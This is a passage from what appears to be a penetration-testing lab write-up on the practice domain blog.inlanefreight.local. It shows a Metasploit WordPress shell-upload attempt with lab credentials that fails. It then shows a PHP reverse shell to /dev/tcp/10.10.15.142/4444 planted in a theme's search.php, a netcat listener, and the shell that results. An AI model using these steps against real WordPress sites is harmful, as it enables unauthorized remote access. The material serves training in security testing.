 name starts with the letter "f":
```bash
frank.mclane
```

### Getting Shell and Root access:

**MetasPloit:**
```bash
search wp_admin
  0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
use 0
set rhosts blog.inlanefreight.local
set username erika
set password 010203
set lhost 10.10.15.142
run
```

```bash
 [*] Started reverse TCP handler on 10.10.15.142:4444 
 [*] Authenticating with WordPress using erika:010203...
 [+] Authenticated with WordPress
 [*] Preparing payload...
 [*] Uploading payload...
 [-] Exploit aborted due to failure: unexpected-reply: Failed to upload the payload
 [*] Exploit completed, but no session was created.
 ```

So basicly with metasploit it didnt worked

Onother way:

Login as admin and got to inactive theme twentyseventeen theme, got to search.php and add:
```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.142/4444 0>&1'");
?>
```

Added listener in new terminal:
```bash
nc -lvnp 4444
```

Activated twentyseventeen theme and went to a search resuslts page and walla:
```bash
listening on [any] 4444 ...
connect to [10.10.15.142] from (UNKNOWN) [10.129.2.37] 42716
bash: cannot set terminal process group (1646): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nix01:/var/www/blog.inlanefreight.local/public_html$ ls
```
```bash
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
```